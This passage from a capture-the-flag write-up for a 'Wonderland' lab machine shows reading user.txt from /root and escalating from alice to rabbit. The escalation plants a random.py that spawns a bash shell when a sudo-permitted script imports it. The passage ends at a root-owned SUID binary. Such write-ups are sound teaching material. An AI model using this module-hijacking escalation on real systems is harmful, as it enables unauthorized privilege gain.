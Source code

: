 It is strange to see root.txt in the folder of alice.```find ./ -type f -iname "user.txt"``` doesn't reveal anything. The hint "Everything is upside down here." means if root.txt is here, maybe user.txt is under /root. We can directly read user.txt by running```cat /root/user.txt```. lol...

## Escalate privileges to rabbit

We see `walrus_and_the_carpenter.py` imports and calls `random` to get 10 random lines from the alice in wonderland lyrics stored in the file:

``` py
import random
[...]
for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)a
```

Running `sudo -l` shows we can run `walrus_and_the_carpenter.py` as rabbit:

SSH login output

``` txt
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

To escalate privileges we can misuse the fact that we can run `walrus_and_the_carpenter.py` by creating our own `random.py` with the following content to overwrite the random function imported and called in `walrus_and_the_carpenter.py`

``` py
import os

def choice(argument):
    os.system("/bin/bash")
```

Running `walrus_and_the_carpenter.py` with our `random.py` will now give us prompt as rabbit:

``` sh
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

## Tea Party

As rabbit we see the following files in home:

``` txt
drwxr-x--- 2 rabbit rabbit  4096 May 25  2020 .
drwxr-xr-x 6 root   root    4096 May 25  2020 ..
lrwxrwxrwx 1 root   root       9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 rabbit rabbit   220 May 25  2020 .bash_logout
-rw-r--r-- 1 rabbit rabbit  3771 May 25  2020 .bashrc
-rw-r--r-- 1 rabbit rabbit   807 May 25  2020 .profile
-rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty
```
